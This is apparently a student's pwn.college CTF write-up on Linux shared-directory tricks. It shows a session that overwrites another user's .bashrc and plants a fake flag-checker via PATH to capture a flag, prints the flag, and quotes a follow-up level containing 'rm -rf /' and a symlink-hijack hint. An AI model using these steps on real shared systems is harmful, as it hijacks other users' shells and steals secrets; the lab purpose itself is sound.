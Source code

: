 ```bash 
hacker@shenanigans~overshared-directories:~$ mkdir new
hacker@shenanigans~overshared-directories:~$ nano ~/new/flag_checker
hacker@shenanigans~overshared-directories:~$ chmod +x ~/new/flag_checker
hacker@shenanigans~overshared-directories:~$ mkdir  /home/zardus/new2
hacker@shenanigans~overshared-directories:~$ mv /home/zardus/.bashrc /home/zardus/new2
hacker@shenanigans~overshared-directories:~$ nano /home/zardus/.bashrc
hacker@shenanigans~overshared-directories:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~overshared-directories:~$ flag_checker
Type the flag
*************************************************************exit
^Z
[2]+  Stopped                 /challenge/victim
hacker@shenanigans~overshared-directories:~$ cat /tmp/flag1.txt
pwn.college{4GLYy1PaKbbd0pBF-LhzO4pgSYc.0FM0EzNxwSN1gjNzEzW}
exit
```

### New Learnings
I learned how the PATH variable can be altered to get .bashrc of a user to carry out commands that we need them to do.

### References

## Tricky Linking
Okay, Zardus has wised up! No more sharing the home directory: despite the reduced convenience, Zardus has moved to sharing /tmp/collab. He's made that directory world-readable and has started a list of evil commands to remember!

```bash
zardus@dojo:~$ mkdir /tmp/collab
zardus@dojo:~$ chmod a+w /tmp/collab
zardus@dojo:~$ echo "rm -rf /" > /tmp/collab/evil-commands.txt
```
In this challenge, when you run /challenge/victim, Zardus will add cat /flag to that list of commands:

```bash
hacker@dojo:~$ /challenge/victim

Username: zardus
Password: **********
zardus@dojo:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@dojo:~$ exit
logout
hacker@dojo:~$
```
Recall from the previous level that, having write access to /tmp/collab, the hacker user can replace that evil-commands.txt file. Also remember from Comprehending Commands that files can link to other files. What happens if hacker replaces evil-commands.txt with a symbolic link to some sensitive file that zardus can write to? Chaos and shenanigans!
